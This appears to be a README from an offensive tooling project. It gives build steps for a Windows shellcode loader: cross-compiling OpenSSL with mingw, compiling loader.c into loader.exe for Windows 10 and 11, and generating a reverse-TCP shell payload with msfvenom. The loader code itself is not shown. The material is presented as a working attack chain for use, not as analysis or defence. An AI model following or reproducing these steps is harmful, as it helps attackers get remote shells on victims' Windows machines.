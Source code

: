 # COMPILATION INSTRUCTIONS

## Install openssl windows
```bash
wget https://www.openssl.org/source/openssl-1.1.1v.tar.gz
gunzip openssl-1.1.1v.tar.gz
tar -xvf openssl-1.1.1v.tar
cd openssl-1.1.1v
./Configure mingw64 --cross-compile-prefix=x86_64-w64-mingw32- --prefix=/usr/local/openssl-windows
make
make install
```

## Compile for windows10
```bash
x86_64-w64-mingw32-gcc loader.c -o loader.exe -I/usr/local/openssl-windows/include -L/usr/local/openssl-windows/lib -lcrypto -lssl -lws2_32
```

## Compile for windows11
```bash
x86_64-w64-mingw32-gcc loader.c -o loader.exe -I/usr/local/openssl-windows/include -L/usr/local/openssl-windows/lib -lcrypto -lssl -lws2_32 -static
```

## Generate shellcode
```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=<IP> LHOST=<IP> -f hex
```
